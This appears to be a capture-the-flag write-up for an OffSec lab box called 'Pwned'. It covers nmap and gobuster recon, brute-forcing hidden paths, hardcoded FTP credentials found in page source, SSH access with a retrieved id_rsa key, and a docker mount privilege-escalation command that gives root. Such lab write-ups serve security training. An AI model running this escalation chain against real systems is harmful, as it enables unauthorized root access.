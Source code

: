 # Information Gathering 

## Nmap Scan

```
nmap -sVC -A -p- 192.168.59.95
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-27 03:09 EDT
Nmap scan report for 192.168.59.95
Host is up (0.0038s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fecd90197491aef564a8a5e86f6eef7e (RSA)
|   256 813293bded9be798af2506795fde915d (ECDSA)
|_  256 dd72745d4d2da3623e81af0951e0144a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Pwned....!!
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.30 seconds

```
## Inspect Source code 

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/61f0e02f-2817-45dc-957f-023c085f6d92)

## Robots.txt

```
# Group 1

User-agent: *
Allow: /nothing
Allow: /hidden_text
```

- In the /hidden_text we got the list of dirs
  ![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/beb3d5d4-0ec5-4657-97ba-6dfe06abb351)

## Directory Enumeration
`gobuster dir -u http://192.168.57.95/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html`

```
/index.html           (Status: 200) [Size: 3065]
/.html                (Status: 403) [Size: 278]
/robots.txt           (Status: 200) [Size: 61]
/nothing              (Status: 301) [Size: 316] [--> http://192.168.57.95/nothing/]
/.html                (Status: 403) [Size: 278]
/server-status        (Status: 403) [Size: 278]
/hidden_text          (Status: 301) [Size: 320] [--> http://192.168.57.95/hidden_text/]

```


- Just bruteforeced all thhe endpoint in the list(/hidden_text) using the burp intruder
![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/34f20aae-a0ee-4d0d-8504-65aa64ecd051)


- In the source page we got the user and pass

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/5e0bed84-fee4-4d15-ba33-1217f50cf3f6)

`($un=='ftpuser' && $pw=='B0ss_Pr!ncesS')`

## FTP access
- using the given user pass we can able to get into ftp user and got the **id_rsa** and a **note.txt**

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/49f0d46f-e994-4449-8e2f-21a1d1997a25)

## SSH

- In the note we got the name as ariana

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/e3d7b5b3-39b2-4e43-8e8a-3c2ca656d874)

😃

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/e472be55-8934-48d3-a9b3-9e460aa16a2e)

## User Flag

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/cdfde5dd-7bc4-4753-9b58-e4db4e91aee2)

- We can see other two person names are mentioned
![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/ea244d9e-eb99-4646-aaa7-4321961ae454)

- Checking the users 

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/2b10bd13-79c6-49f2-be84-24a51ed30be6)

Ultimate 😁

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/845cfc96-0464-4ad5-a1fd-ba77dcaf544a)

- For entering the messager.sh through selena , switch user as selena `sudo -u selena ./messenger.sh`

- This user has no flag :)

## Root Flag

-  The system is running on the docker container.

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/be9e863c-1879-47a4-b0e1-88fb8264971f)

- In the list of docker images there is a privesc image

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/af6a8836-b2ec-4e5e-81bd-0d9401c21e55)

finding a docker priv escal command in gtfobins

`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

![image](https://github.com/shyamprasath18/offsec-labs/assets/66670617/1a93d572-4c84-4d5e-8cc8-faeae31dd793)

<img src="https://github.com/shyamprasath18/offsec-labs/assets/66670617/adbbbc8d-6558-4b92-ad62-c1e1cceda037" width="200" />

